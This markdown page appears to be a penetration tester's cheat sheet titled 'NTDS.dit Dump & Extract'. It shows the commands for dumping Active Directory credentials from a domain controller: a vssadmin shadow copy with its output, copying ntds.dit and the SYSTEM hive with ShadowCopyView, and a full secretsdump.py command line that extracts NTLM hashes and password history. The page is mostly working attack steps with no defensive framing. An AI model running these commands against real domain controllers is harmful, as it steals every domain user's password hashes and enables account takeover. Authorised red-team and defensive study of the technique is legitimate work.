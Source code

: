 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

```plain
PS C:\temp> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
PS C:\temp>
```

To make it easy for yourself and extract the `ntds.dit` and `SYSTEM` file from the ShadowCopy, you can use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html)

{{%attachments title="Related files" fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

### Copy NTDS.dit

![example](images/example1.png)

### Copy SYSTEM

![example](images/example2.png)

### Extract hashes

```plain
secretsdump.py -system SYSTEM -NTDS ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

### URL list

* [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
